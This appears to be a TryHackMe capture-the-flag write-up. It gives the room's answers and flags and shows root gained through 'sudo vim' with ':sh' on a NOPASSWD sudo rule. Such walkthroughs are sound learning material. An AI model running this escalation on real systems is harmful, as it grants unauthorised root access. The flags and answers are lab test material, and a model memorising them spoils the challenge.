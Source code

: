 ## THM Questions:

* _Q5_: What's the password? <br> _A_: `secret`
* _Q6_: Where can you login with the details obtained? <br> _A_: `ssh`
* _06_: What's the user flag? <br> _A_: `G00d j0b, keep up!`
* _07_: Is there any other user in the home directory? What's its name? <br> _A_: `sunbath`



<br>

## Attempting privilege escalation:

* ### Finding `sudo` privileges

	> sudo -l

	```
	User mitch may run the following commands on Machine:
    	(root) NOPASSWD: /usr/bin/vim
	```

* ### Using `vim` to spawn a privileged shell

	> sudo vim

	> :sh

	> whoami

	```
	root
	```

	Root shell obtained successfully!


<br>

## Root flag:

> cd /root

> ls -l

```
-rw-r--r-- 1 root root 24 aug 17  2019 root.txt
```

> cat root.txt

```
W3ll d0n3. You made it!
```


<br>

## THM Questions:
